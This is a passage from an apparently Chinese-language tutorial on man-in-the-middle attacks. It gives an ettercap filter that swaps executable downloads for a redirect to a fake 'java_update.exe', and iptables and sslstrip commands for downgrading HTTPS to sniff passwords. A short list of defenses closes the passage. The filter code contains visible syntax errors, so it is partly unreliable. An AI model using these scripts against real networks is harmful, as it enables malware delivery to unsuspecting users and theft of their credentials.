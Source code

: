  （4）替换URL



```bash
# replace rmccurdy with your website
# replace the url with what ever exe you like

if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!");
      # note: replacement string is same length as original string
      msg("zapped Accept-Encoding!n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("keep-alive", "close" ");
   replace("Keep-Alive", "close" ");
}

if (ip.proto == TCP && search(DATA.data, ": application") ){
   # enable for logging log(DECODED.data, "/tmp/log.log");
   msg("found EXEn");
   # "Win32" is the first part of the exe example:
   # if the EXE started with "this program must be run in MSDOS mode" you could search for MSDOS etc ..
   if (search(DATA.data, "Win32")) {
      msg("doing nothingn");
   } else {
      replace("200 OK", "301 Moved Permanently Location: http://127.0.0.1/java_update.exe ");
      msg("redirect successn");
   }
}
```



0x03 SSL密码嗅探

　　对SSL流量的嗅探，可以使用sslstrip这个工具，它的原理就是把所有的https流量降级为http流量。相当于一个中间人的角色，它与服务器建立正常的https廉洁，而与浏览器则使用http连接。使用时需要本机开启流量转发，将80端口的http流量同时转发到10000端口上，在10000端口上使用sslstrip来监听即可：

```bash
# echo 1 > /proc/sys/net/ipv4/ip_forward
# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000
# sslstrip -l 10000
```

 

0X04 防范MITM攻击的常用方法

\1. 将一些机密信息进行加密后再传输，这样即使被“中间人”截取也难以破解。

\2. 通过设备或IP异常检测。如用户以前从未使用某个设备或IP访问系统。

\3. 通过设备或IP频率检测：如单一的设备或IP同时访问大量的用户帐号。

\3. 进行带外认证，具体过程是：系统进行实时的自动电话回叫，将二次PIN码发送至SMS（短信网关），短信网关再转发给用户，用户收到后，再将二次PIN码发送到短信网关，以确认是否是真的用户。